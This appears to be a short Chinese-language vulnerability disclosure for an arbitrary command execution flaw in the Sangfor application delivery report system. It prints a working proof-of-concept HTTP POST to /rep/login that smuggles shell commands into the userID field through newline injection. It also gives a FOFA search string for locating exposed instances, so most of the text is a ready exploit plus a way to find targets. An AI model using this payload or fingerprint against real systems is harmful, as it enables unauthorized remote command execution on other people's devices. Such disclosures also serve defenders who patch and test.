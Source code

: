 #### 影响范围

深信服应用交付报表系统

#### 漏洞概述

深信服应用交付报表系统存在任意命令执行漏洞

#### 漏洞复现

应用页面如下：

![SXF_report](img/SXF_report.png)

漏洞POC(仅部分特定版本)：

```
POST /rep/login HTTP/1.1
Host: 
Content-Length: 128
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115","Chromium";v="115" 

closeclsMode=cls_mode_login&index=index&log_type=report&page=login&rnd=0.7550103466497915&userID=admin%0Aifconfig%0A&userPsw=tmbhuisq
```

![SXF_report2](img/SXF_report2.png)

#### 资产测绘

FOFA：

```
"/report/templet/static/js/polyfill.js"
```









